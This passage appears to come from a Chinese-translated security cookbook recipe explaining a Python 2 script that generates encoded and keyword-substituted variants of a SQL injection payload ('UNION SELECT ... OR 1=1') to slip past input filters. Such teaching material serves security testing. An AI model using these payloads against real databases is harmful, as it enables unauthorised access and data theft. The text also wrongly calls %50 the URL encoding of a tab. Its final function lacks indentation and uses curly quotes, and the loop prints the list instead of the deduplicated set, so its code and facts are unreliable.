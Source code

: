 我们创建原始字符串的第二个版本，以便我们可以为每个替换创建一个累积结果和一个独立结果：

```py
secondoriginalstring = originalstring
```

我们依次取每个字典项，并将每个键和值分配给参数键和值：

```py
for key, value in values.iteritems():
```

我们查看初始术语是否存在，如果存在，则用键值替换它。例如，如果存在空格，我们将用`%50`替换它，这是 URL 编码的制表符字符：

```py
if key in originalstring:
    newstring = originalstring.replace(key, value)
```

这个字符串，在每次迭代时，都会重置为我们在脚本开头设置的原始值。然后我们将该字符串添加到之前创建的列表中：

```py
subs.append(newstring)
```

我们执行与之前相同的操作，使用迭代字符串来创建一个多次编码的版本：

```py
if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)
```

最后，我们通过将其转换为集合使列表变得唯一，并逐行将其返回给用户：

```py
subset = set(subs)
for line in subs:
  print line
```

## 还有更多…

同样，这可以成为一个内部函数，而不是作为独立脚本使用。也可以通过使用以下脚本来实现：

```py
def encoder(string):

subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin'”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
return subset
```
